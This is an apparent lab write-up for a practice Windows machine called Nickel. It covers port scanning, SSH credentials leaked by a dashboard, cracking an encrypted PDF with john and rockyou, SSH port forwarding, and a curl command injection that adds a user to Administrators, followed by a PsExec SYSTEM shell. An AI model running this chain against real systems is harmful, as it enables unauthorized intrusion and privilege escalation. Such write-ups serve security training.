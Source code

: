 ```yaml
---
description: 11-09-2022
---
```


# Nickel (Intermediate)

<figure><img src="../../../.gitbook/assets/image (3) (3) (3).png" alt=""><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 8684fdd5432705cfa7f2e9e27570d5f3 (RSA)
|   256 9c93cf48a94e70f460dee1a9c2c0b6ff (ECDSA)
|_  256 004ed73b0f9fe3744d04990bb18bdea5 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-11-10T02:03:11+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nickel
| Issuer: commonName=nickel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-11-09T01:58:19
| Not valid after:  2023-05-11T01:58:19
| MD5:   ae87078529cc1047117f9699a5364c3c
|_SHA-1: 254de154bbf9a8bcc47973866f5187715b4341bc
| rdp-ntlm-info: 
|   Target_Name: NICKEL
|   NetBIOS_Domain_Name: NICKEL
|   NetBIOS_Computer_Name: NICKEL
|   DNS_Domain_Name: nickel
|   DNS_Computer_Name: nickel
|   Product_Version: 10.0.18362
|_  System_Time: 2022-11-10T02:02:04+00:00
8089/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
| http-methods: 
|_  Supported Methods: GET
|_http-favicon: Unknown favicon MD5: 9D1EAD73E678FA2F51A70A933B0BF017
33333/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-favicon: Unknown favicon MD5: 76C5844B4ABE20F72AA23CBE15B2494E
| http-methods: 
|_  Supported Methods: GET POST
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-time: ERROR: Script execution failed (use -d to debug)
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
```

Enumerated UDP ports:

```
1000 open|filtered udp ports (no-response)
```

Notes:

* 21/FTP - HTA attack or other client-side attack? Permissions? Version
* 3389/RDP - <mark style="color:yellow;">Product\_Version: 10.0.18362</mark>
* 8089/HTTP - DevOps Dashboard
* 33333/HTTP - Blank as of discovery; "invalid token"

## Enumeration

### Port 8089 - HTTP "DevOps Dashboard"

<figure><img src="../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

* Let's check out List Running Processes as it seems the most interesting

### Unable to Connect

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

Let's change the IP to the target's and try again:

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

* Interesting, the server is reporting that it cannot "GET" the directory
* What if we sent it a POST?

POST Request:

<figure><img src="../../../.gitbook/assets/image (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

### SSH Enumeration

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Credentials:

User: ariah

Password: Tm93aXNlU2xvb3BUaGVvcnkxMzkK

* Base64 encoding?

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">ariah:NowiseSloopTheory139</mark>

Connecting to host via SSH:

```
ssh ariah@192.168.81.99
password: NowiseSloopTheory139
```

<figure><img src="../../../.gitbook/assets/image (14) (4).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### Sensitive Information Disclosure

* The list-running-procs function within the poorly configured web app pointed me to SSH credentials which granted me initial foothold of the victim machine

## Privilege Escalation

### Local enumeration

* Interesting file in <mark style="color:yellow;">C:/ftp/infrastructure.pdf</mark>
* <mark style="color:yellow;">Unable to utilize SMB or HTTP for file transfer, remembered SSH was open and utilized SCP for file transfer</mark>

### SCP File Transfer

```
scp ariah@192.168.81.99:C:/ftp/infrastructure.pdf .
ariah@192.168.81.99's password: NowiseSloopTheory139

Infrastructure.pdf                                                     100%   45KB 240.7KB/s   00:00 
```

* We can now access Infrastructure.pdf from our Kali box

Opening PDF:

<figure><img src="../../../.gitbook/assets/image (14) (1) (3).png" alt=""><figcaption></figcaption></figure>

* However, when I'm trying to open it, we find out that it is encrypted
  * Sounds like a <mark style="color:yellow;">pdf2john</mark> kind of mission

### pdf2john -- infrastructure.pdf

```
pdf2john Infrastructure.pdf > Infrastructure.hash
Infrastructure.pdf:$pdf$4*4*128*-1060*1*16*14350d814f7c974db9234e3e719e360b*32*6aa1a24681b93038947f76796470dbb100000000000000000000000000000000*32*d9363dc61ac080ac4b9dad4f036888567a2d468a6703faf6216af1eb307921b0
```

Cracking:

```
john --wordlist=/usr/share/wordlists/rockyou.txt Infrastructure.hash

ariah4168        (Infrastructure.pdf)
```

* Successfully cracked password!
* <mark style="color:yellow;">ariah4168</mark>

<figure><img src="../../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

### Network Enumeration

* We can see that there is an internal web server running on port 80
* Let's use SSH to port forward it so we can access it on Kali

<figure><img src="../../../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### SSH Portforward

```
ssh -f -N -L <kali-bind-ip>:<kali-tcp-port>:<target-side-ip>:<target-tcp-port> username@target-ip

ssh -f -N -L 127.0.0.1:8080:127.0.0.1:80 ariah@192.168.81.99
```

<figure><img src="../../../.gitbook/assets/image (5) (8).png" alt=""><figcaption></figcaption></figure>

* If we refer back to the pdf, there is a command injection endpoint at the root level

```
curl 'http://localhost:8080/?whoami'

nt authority\system
```

* Wow, the web server is running as SYSTEM

Add user ariah to the Administrator group:

```
curl 'http://localhost:1337/?Add-LocalGroupMember%20-Group%20Administrators%20-Member%20ariah'
```

Add psexec to the target with SCP:

{% embed url="https://download.sysinternals.com/files/PSTools.zip" %}

On Kali:

```
scp PsExec64.exe ariah@192.168.81.99:C:/ftp/
```

On Windows Target:

```
PsExec64.exe -accepteula -s cmd.exe
```

## Proof

<figure><img src="../../../.gitbook/assets/image (4) (5) (2).png" alt=""><figcaption></figcaption></figure>

